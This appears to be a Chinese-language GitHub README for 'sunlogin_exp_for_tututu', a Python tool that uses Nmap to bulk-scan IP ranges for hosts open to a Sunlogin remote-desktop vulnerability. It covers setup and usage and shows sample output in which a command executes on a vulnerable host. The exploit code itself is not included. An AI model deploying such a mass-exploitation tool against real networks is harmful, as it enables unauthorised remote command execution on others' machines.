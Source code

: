 # sunlogin_exp_for_tututu
# 基于NMAP的向日葵漏洞自动化批量扫描工具

## 1. 需要您安装NMAP，https://nmap.org/download。

## 2. 需要更新安装Python模块
    pip install requests
    pip install python-nmap
    
## 3. 在test.txt中放入地址段(仅支持IP和地址段哦);每个IP或者地址段占一行哦。

## 4. 执行Python sunlogin_exp_for_tututu.py

执行情况:
```
PS D:\> python .\sunlogin_exp_for_tututu.py
2022-07-10 10:52:21-172.17.8.0/23
[+]host:http://172.17.8.99:61127 cid:hHdXNeZi8NrH5cOND9JVsawf5lysf97y cmd:"vulnerable!" response:vulnerable! 
```
